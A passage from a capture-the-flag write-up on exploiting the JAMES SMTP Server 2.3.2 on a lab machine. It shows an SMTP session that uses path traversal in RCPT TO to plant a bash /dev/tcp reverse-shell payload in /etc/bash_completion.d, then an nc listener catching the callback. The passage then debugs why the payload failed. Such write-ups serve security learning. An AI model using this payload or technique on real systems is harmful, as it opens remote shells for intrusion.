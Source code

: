 ### Curious Case of /dev/tcp

Originally the first reverse shell payload I tried was `bash -i >&
/dev/tcp/10.10.14.47/443 0>&1`. I set it manually:

    
    
    root@kali# telnet 10.10.10.51 25
    Trying 10.10.10.51...
    Connected to 10.10.10.51.
    Escape character is '^]'.
    220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Wed, 29 Apr 2020 23:28:35 -0400 (EDT)
    EHLO 0xdf
    250-solidstate Hello 0xdf (10.10.14.47 [10.10.14.47])
    250-PIPELINING
    250 ENHANCEDSTATUSCODES
    MAIL FROM: <'0xdf@10.10.14.47>
    250 2.1.0 Sender <'0xdf@10.10.14.47> OK
    RCPT TO: <../../../../../../../../etc/bash_completion.d>
    250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
    DATA
    354 Ok Send data ending with <CRLF>.<CRLF>
    FROM: 0xdf@10.10.14.47
    
    '
    bash -i >& /dev/tcp/10.10.14.47/443 0>&1
    
    .
    250 2.6.0 Message received
    quit
    221 2.0.0 solidstate Service closing transmission channel
    Connection closed by foreign host.
    

And then triggered it, but got errors and the connection died:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.51.
    Ncat: Connection from 10.10.10.51:49650.
    : ambiguous redirect363837383831322D35.Repository.FileStreamStore: line 16: 1
    

However, when I tried the same payload in the `searchsploit` script, it
worked. It was driving me crazy, so I went to look at the different payloads.

For each email received by the account, there are two files in the user’s
directory (for this user, that’s `/etc/bash_completion.d`), a Object Store and
a Stream Store. For example:

    
    
    root@solidstate:/etc/bash_completion.d# ls
    4D61696C313538383231373936323331372D38.Repository.FileObjectStore  4D61696C313538383231373936323331372D38.Repository.FileStreamStore
    